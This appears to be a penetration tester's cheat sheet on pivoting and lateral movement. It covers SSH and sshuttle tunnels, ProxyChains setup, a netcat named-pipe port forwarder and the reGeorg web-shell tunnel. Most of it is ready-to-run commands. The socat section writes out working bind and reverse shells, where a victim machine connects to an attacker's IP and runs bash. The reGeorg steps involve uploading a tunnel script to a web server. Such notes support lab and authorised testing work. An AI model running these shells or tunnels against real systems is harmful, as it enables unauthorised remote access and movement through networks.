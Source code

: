 #pivoting #lateral-movement
# Check if your tunnel is active and running: 

- nc -z localhost port || echo 'no tunnel open'
- netstat -lpnt | grep port | grep ssh
- ps aux | grep ssh
- ss -ntlp

# SSH Tunneling

Note: Target must have SSH running for there service

1. Create SSH Tunnel: ssh -D localhost:local port -f -N user@localhost -p Target Port
2. Setup ProxyChains. Edit the following config file (/etc/proxychains.conf)
3. Add the following line into the config: Socks5 127.0.0.1 Local Port
4. Run commands through the tunnel: proxychains command

# SShuttle

In Kali

Source: https://github.com/sshuttle/sshuttle

- sshuttle -r root@172.21.0.0 10.2.2.0/24
- sshuttle -D -r user@host 10.10.10.10 0/0 --ssh-cmd 'ssh -i ./id_rsa' # Daemon mode
- sshuttle -D --dns -vr user@yourserver.com 0/0 --ssh-cmd 'ssh -i /your/key/path.pem' # Daemon mode with DNS
- Working with your .ssh/config:
```
sshuttle --dns -vr user@server 0/0 --ssh-cmd 'ssh jumpbox'
sshuttle --dns -r myserver 0/0 -x <server-IP>
```

# Socat

## Bind Shell

```
victim> socat TCP-LISTEN:443,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
attacker> socat FILE:`tty`,raw,echo=0 TCP4:<victim_ip>:443
```

## Reverse Shell

```
attacker> socat TCP-LISTEN:443,reuseaddr FILE:`tty`,raw,echo=0
victim> socat TCP4:<attackers_ip>:443 EXEC:bash,pty,stderr,setsid,sigint,sane
```

# Port Forwarder
1. mknod pivot p
2. nc -l -p < port to listen on> 0<pivot | nc "target" "pivot-port" 1>pivot

# reGeorg

Source: https://github.com/sensepost/reGeorg

Note: reGeorg requires Python 2.7 and the following modules:

urllib3 - HTTP library with thread-safe connection pooling, file post, and more.

1. Upload tunnel.(aspx|ashx|jsp|php) to a webserver
2. Configure the tool to use a socks proxy, use the ip address and port you specified when you started the reGeorgSocksProxy.py
```
python reGeorgSocksProxy.py -p 8080 -u http://upload.megacorpone.net:8080/tunnel/tunnel.jsp
```